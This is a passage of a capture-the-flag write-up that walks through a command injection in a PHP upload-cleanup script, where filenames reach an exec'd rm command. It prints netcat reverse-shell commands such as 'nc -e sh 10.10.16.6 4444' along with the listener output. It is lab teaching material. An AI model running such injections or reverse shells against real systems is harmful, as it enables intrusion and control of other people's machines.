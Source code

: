 ```
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```
In this place, If I can control $path or $value, there’s obvious code injection.

$path is set statically at the top of the file. But $value is not. I’ll open a php shell again and see what’s happening. It starts by reading all the files in the uploads directory, and using preg_grep to select ones that don’t start with .. I can do something similar in my directory with with the site source, and a test file:
```
root@kali# ls -a
.  ..  index.php  lib.php  photos.php  .test  upload.php

php > $files = preg_grep('/^([^.])/', scandir('.')); print_r($files);
Array
(
    [5] => index.php
    [6] => lib.php
    [7] => photos.php
    [8] => upload.php
)
```
Now there’s a `foreach` over $files where the number is stored as $key and the filename as $value.
$value is passed to `getnameCheck()`, and the resulting $name and $value are passed to `check_ip()`:
```
list ($name,$ext) = getnameCheck($value);
$check = check_ip($name,$value);
```
If `$check[0]` is false, the code will reach the target line.

In `lib.php`, `check_ip` just runs $name through filter_var, which is using FILTER_VALIDATE_IP to check for valid IP addresses. As `getnameCheck()` is exactly the same as `getnameUpload()` above, $name will be anything before the first .

This means any file I write in the uploads directory that isn’t named a valid IP will be passed to the part I can inject into.

(To put it more simply, this `check_attack.php` is responsible for deleting invalid files, and there is command injection when deleting, so we only need to deliberately create invalid files to trigger the injection point.)

In this place, we need to choose a good payload.
Shells on this box we kind of annoying. This is a good case of remembering to always try to run a shell yourself before trying to get another user’s process to run it. Once I was sure I had a shell that connected back when I ran it, I could use that same command for the privesc.
For example, I wanted to have guly run nc -e sh 10.10.14.7 443. This should work, as sh is in my path. But it fails:
`nc -e sh 10.10.16.6 4444`
On my listener, I see the connection, and then it immediately dies:
```
nc -lnvp 4444      
listening on [any] 4444 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.146] 60482
```
